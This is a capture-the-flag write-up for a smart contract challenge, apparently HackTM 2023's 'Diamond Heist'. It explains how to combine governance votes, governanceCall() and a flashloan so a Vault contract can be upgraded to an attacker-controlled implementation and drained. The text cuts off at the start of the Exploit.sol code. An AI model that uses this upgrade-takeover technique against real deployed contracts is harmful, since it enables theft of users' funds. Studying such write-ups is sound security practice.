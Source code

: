 The `_authorizeUpgrade()` function is overridden in the current implementation of `Vault`: 
```solidity
function _authorizeUpgrade(address) internal override view {
    require(msg.sender == owner() || msg.sender == address(this));
    require(IERC20(diamond).balanceOf(address(this)) == 0);
}
```

To change the implementation of `Vault` to our own contract, the following two requirements have to be met:
1. `msg.sender` has to be either owner or `Vault` itself.
2. `Vault` must have no diamonds.

Since the owner of `Vault` is the `Setup` contract, the first criteria can only be achieved by calling `upgradeTo()` through the `Vault` itself. Luckily for us, `Vault` contains a `governanceCall()` function:
```solidity
function governanceCall(bytes calldata data) external {
    require(msg.sender == owner() || saltyPretzel.getCurrentVotes(msg.sender) >= AUTHORITY_THRESHOLD);
    (bool success,) = address(this).call(data);
    require(success);
}
```

As we now have the ability to gain infinite votes, we can make `Vault` call any of its functions through `governanceCall()`. To meet the first requirement, we simply use `governanceCall()` to call `upgradeTo()`, which would make `msg.sender` the `Vault` itself.

To fulfil the second criteria, we utilize the `flashloan()` function:
```solidity
function flashloan(address token, uint amount, address receiver) external {
    uint balanceBefore = IERC20(token).balanceOf(address(this));
    IERC20(token).transfer(receiver, amount);
    IERC3156FlashBorrower(receiver).onFlashLoan(msg.sender, token, amount, 0, "");
    uint balanceAfter = IERC20(token).balanceOf(address(this));
    require(balanceBefore == balanceAfter);
}
```
We take out a flashloan to borrow all of `Vault`'s diamonds, and then make the `governanceCall() -> upgradeTo()` call in the `onFlashLoan()` callback. This way, when `upgradeTo()` is called, `Vault` will temporarily have no diamonds.

## Exploit code
The exploit code is split contains three contracts:
* `Exploit` mainly handles abusing the vulnerability to gain sufficient votes.
* `VoteCollector` is used to solve the challenge after it has enough votes.
* `FakeVault` is the new vault implementation used to drain the vault.

[`Exploit.sol`](https://github.com/MiloTruck/smart-contract/blob/main/ctf/hacktm-2023/diamond-heist/Exploit.sol)
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "./diamond_heist_contracts/Setup.sol";
import "./diamond_heist_contracts/Vault.sol";
import "./diamond_heist_contracts/Diamond.sol";
import "./diamond_heist_contracts/SaltyPretzel.sol";

contract Exploit {
    // Challenge contracts
    Setup public setup;
    Vault public vault;
    SaltyPretzel public saltyPretzel;

    constructor(Setup _setup) {
```